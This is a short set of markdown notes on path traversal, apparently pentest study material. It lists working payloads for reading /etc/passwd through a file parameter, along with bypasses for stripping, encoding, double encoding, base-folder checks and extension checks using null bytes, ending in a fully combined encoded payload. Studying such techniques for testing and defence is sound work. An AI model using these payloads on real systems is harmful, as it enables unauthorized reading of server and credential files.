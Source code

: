 # Path traversal

## <mark style="color:yellow;">General info</mark>

* `<img src="/loadImage?filename=218.png">`
* An attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem
* `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
* On Windows, both `../` and `..\` are valid directory traversal sequences

## <mark style="color:yellow;">Bypass defences</mark>

* elimination (strip): `../` -> `....//`
  * Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* encode: `%2e%2e%2f`
* double-encode: `%252e%252e%252f`
* require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* others

## <mark style="color:yellow;">Tips</mark>

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`
